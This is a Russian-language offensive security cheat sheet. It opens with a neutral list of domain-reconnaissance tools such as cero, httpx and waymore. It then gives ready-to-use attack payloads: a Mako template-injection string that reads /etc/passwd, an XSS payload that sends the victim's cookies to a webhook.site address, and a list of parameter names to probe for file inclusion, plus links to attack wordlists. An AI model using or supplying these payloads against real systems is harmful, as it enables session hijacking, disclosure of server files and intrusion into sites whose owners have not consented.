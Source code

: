 # Разведка доменных имен

https://github.com/glebarez/cero

Cero подключается к удалённым хостам и считывает доменные имена из сертификатов, предоставленных во время TLS-рукопожатия.
Сервер не ограничивается только HTTPS и может извлекать сертификаты из любого протокола, работающего через TLS (например, SMTPS) — просто укажите нужные порты для подключения.
Cero позволяет гибко указывать цели, включая доменные имена, IP-адреса и диапазоны CIDR, с полной поддержкой IPv6.

https://github.com/hakluke/hakip2host

hakip2host принимает список IP-адресов через stdin, а затем выполняет серию проверок для возврата связанных доменных имен.

- DNS PTR-поиски
- Альтернативные имена субъектов (SAN) в SSL-сертификатах
- Общие имена (CN) в SSL-сертификатах

https://github.com/projectdiscovery/httpx

httpx— это быстрый и многоцелевой HTTP-инструментарий, позволяющий запускать несколько тестов с помощью библиотеки retryablehttp . Он разработан для обеспечения надёжности результатов при увеличении числа потоков.

https://github.com/xnl-h4ck3r/waymore

Идея waymore заключается в том, чтобы найти еще больше ссылок с помощью Wayback Machine, чем с помощью других существующих инструментов.

👉 Самое большое отличие waymore от других инструментов заключается в том, что он также может загружать архивные ответы для URL-адресов на wayback machine, чтобы вы могли затем искать в них еще больше ссылок, комментариев разработчиков, дополнительных параметров и т. д. и т. п. 👉 Кроме того, другие инструменты в настоящее время не справляются с ограничением скорости, которое сейчас устанавливают источники, и часто просто останавливаются с неполными результатами и не сообщают вам об этом.

https://github.com/xnl-h4ck3r/xnLinkFinder

Это инструмент, используемый для обнаружения конечных точек (и потенциальных параметров) заданной цели. Он может найти их следующим образом:

сканирование цели (передача домена/URL)
сканирование нескольких целей (передача файла доменов/URL-адресов)
поиск файлов в заданном каталоге (передать имя каталога)
поиск по содержимому одного файла
получить их из проекта Burp (передать расположение XML-файла Burp)
получить их из проекта ZAP (передать местоположение файла сообщений ZAP ASCII)
получить их из проекта Caido (передать расположение файла CSV экспорта Caido)
обработка каталога результатов waymore (поиск архивных файлов ответов waymore -mode R, а также запрос URL-адресов waymore.txtи исходных URL-адресов waymore_index.txt- см. waymore README.md )
Скрипт на Python основан на возможностях поиска ссылок моего расширения Burp GAP . В качестве отправной точки я взял замечательный инструмент LinkFinder от Gerben Javado и использовал регулярное выражение для поиска ссылок, но с дополнительными улучшениями, позволяющими находить ещё больше ссылок.

# SSTI (Server-Side Template Injection) в Python

##  Mako Templates
### Проверка уязвимости
${7*7}  # → 49

### Чтение файла
<% import os %>${os.popen('cat /etc/passwd').read()}

# XSS Payload
[<]img src=x onerror="this.src='https://webhook.site/b8ce3f5c-707d-406f-a8df-0dd7928bca42?c='+document.cookie;"[>]

# LFI 
## Top 25 Local File Inclusion (LFI) Parameters

?cat={payload}

?dir={payload}

?action={payload}

?board={payload}

?date={payload}

?detail={payload}

?file={payload}

?download={payload}

?path={payload}

?folder={payload}

?prefix={payload}

?include={payload}

?page={payload}

?inc={payload}

?locate={payload}

?show={payload}

?doc={payload}

?site={payload}

?type={payload}

?view={payload}

?content={payload}

?document={payload}

?layout={payload}

?mod={payload}

?conf={payload}

##  LFI Wordlists
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI

https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
# SQLi
https://www.sqlinjection.net/stacked-queries/



